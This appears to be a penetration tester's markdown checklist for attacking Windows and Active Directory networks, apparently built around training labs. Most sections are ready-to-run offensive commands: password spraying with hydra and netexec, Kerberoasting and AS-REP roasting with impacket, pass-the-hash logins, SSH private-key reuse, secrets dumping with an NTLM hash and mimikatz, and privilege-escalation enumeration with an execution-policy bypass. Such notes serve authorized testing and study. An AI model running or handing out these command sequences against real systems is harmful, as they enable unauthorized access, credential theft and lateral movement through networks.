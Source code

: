 # Penetration Test Checklist



## Web Application Testing



## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```



## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

##

## Popped a new Shell

####

#### (PWNED) - Dump Secrets

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

## Privilege Escalation - Windows

####

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```



### Manual Enumeration

* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.
* [ ] Check **ALL** privileges "whoami /priv" for potential exploits



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

## Lateral Movement

*
